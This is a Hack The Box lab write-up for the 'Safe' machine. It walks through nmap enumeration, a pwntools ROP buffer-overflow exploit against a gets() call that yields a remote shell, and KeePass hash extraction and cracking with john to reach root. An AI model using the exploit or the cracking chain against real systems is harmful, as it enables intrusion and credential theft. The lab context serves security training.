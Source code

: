 ```yaml
---
title: Hack The Box Safe Write Up
published: true
---
```

Hey Guys.This is my write up about safe from hack the box.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/safe.png)

It is linux box and rated as easy.It is an oscp like box so let’s get jump in.

As always we start with nmap to scan for open port and services.

# [](#header-3)Enumeration

# [](#header-4)Nmap 
```
root@ch4n:~/Desktop/htb/boxes/safe# nmap -sC -sV 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 20:08 EST
Nmap scan report for 10.10.10.147
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.46 seconds
```
Here is nmap scan and we got http on port 80 and ssh on port 22.

So nothing was interesting there and let’s go to the web page.

# [](#header-4)Web Page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/web_page_source.png)

So when I check the web page source,I found that myapp is running on port 1337.

So let’s see port 1337 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/port_1337.png)

In here we got some text.So I downloaded myapp to my machine.And Let’s analyze it.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/checksec_myapp.png)

So in here when we check the file,it is an 64bit binary and NX is enabled but PIE is not..

So let’s disassemble the binary and let’s see how the program works..

I opened it up  in ghidra and check the main function.It is interesting one:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/ghidra.png)

```
undefined8 main(void)

{
  char local_78 [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(local_78);
  puts(local_78);
  return 0;
}
```
When we look up the code in main function you can see that the system excute usr/bin/uptime and it print What do you want to echo me back?

There are also gets and puts.

# [](#header-3)Exploitation 

I opened myapp with gdb and let’s calculate the offset:-)

I created the pattern and then run and put the pattern then program was crashed:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset%201.png)

 we can calculate the offset.It is 120.Then I create the pattern with 112 and added 8 bytes of b at the end.
 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/pattern_offset2.png)

In here we  can see that rbp register contains bbbbbbbb and it shows that This  offset to can control RIP with 120 bytes + 8 bytes:-)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/rbp_registers.png)

# [](#header-4)Writing Exploit 
I can’t  put the shellcode on the stack because NX is enabled so the stack isn’t executable. 

we can use the system function cause PIE is not enable so the address for system doesn't change

I used ropper -f myapp to find rop gadgets
```
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
```
So we will use this one:-)
# [](#header-4)Exploit
```
from pwn import*

p = remote("10.10.10.147" , 1337)
context(os="linux", arch="amd64")

JUNK  = "A"* 112
sh = "/bin/sh\x00"
system = p64(0x401040)
test = p64(0x401152)
r13 = p64(0x401206)

payload = JUNK + sh + r13 + system + "BBBBBBBB" + "CCCCCCCC" + test

p.recvline()
p.sendline(payload)
p.interactive()
```
After running this code we got the shell as user so this shell is not fully interactive so I added our ssh key to authorized_keys 

Then connect with sssh
```
user@safe:~$ ls -la
total 11284
drwxr-xr-x 3 user user    4096 May 13  2019 .
drwxr-xr-x 3 root root    4096 May 13  2019 ..
lrwxrwxrwx 1 user user       9 May 13  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user     220 May 13  2019 .bash_logout
-rw-r--r-- 1 user user    3526 May 13  2019 .bashrc
-rw-r--r-- 1 user user 1907614 May 13  2019 IMG_0545.JPG
-rw-r--r-- 1 user user 1916770 May 13  2019 IMG_0546.JPG
-rw-r--r-- 1 user user 2529361 May 13  2019 IMG_0547.JPG
-rw-r--r-- 1 user user 2926644 May 13  2019 IMG_0548.JPG
-rw-r--r-- 1 user user 1125421 May 13  2019 IMG_0552.JPG
-rw-r--r-- 1 user user 1085878 May 13  2019 IMG_0553.JPG
-rwxr-xr-x 1 user user   16592 May 13  2019 myapp
-rw-r--r-- 1 user user    2446 May 13  2019 MyPasswords.kdbx
-rw-r--r-- 1 user user     675 May 13  2019 .profile
drwx------ 2 user user    4096 Jan 15 10:32 .ssh
-rw------- 1 user user      33 May 13  2019 user.txt
```
 In user directory,there are images and interesting files called MyPasswords.kdbx 

```
scp -i safe user@10.10.10.147:* .
```
After downloading all files,I made a simple bash line:-)

```
root@ch4n:~/Desktop/htb/boxes/safe# keepass2john MyPasswords.kdbx > hash;for i in *.JPG;do keepass2john -k $i MyPasswords.kdbx; done >> hash
```

```
root@ch4n:~/Desktop/htb/boxes/safe# cat hash
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
MyPasswords:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
I used john to crack the pass

```
root@ch4n:~/Desktop/htb/boxes/safe# john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt hash
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (KeePass [SHA256 AES 32/64])
Remaining 6 password hashes with 6 different salts
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (MyPasswords)
```
So here we grab the pass as bullshit

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/kpcli_pass.png)

here we got the root password and grab the root flag

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/safe/root.png)

That's it guys.

Enjoy my write up
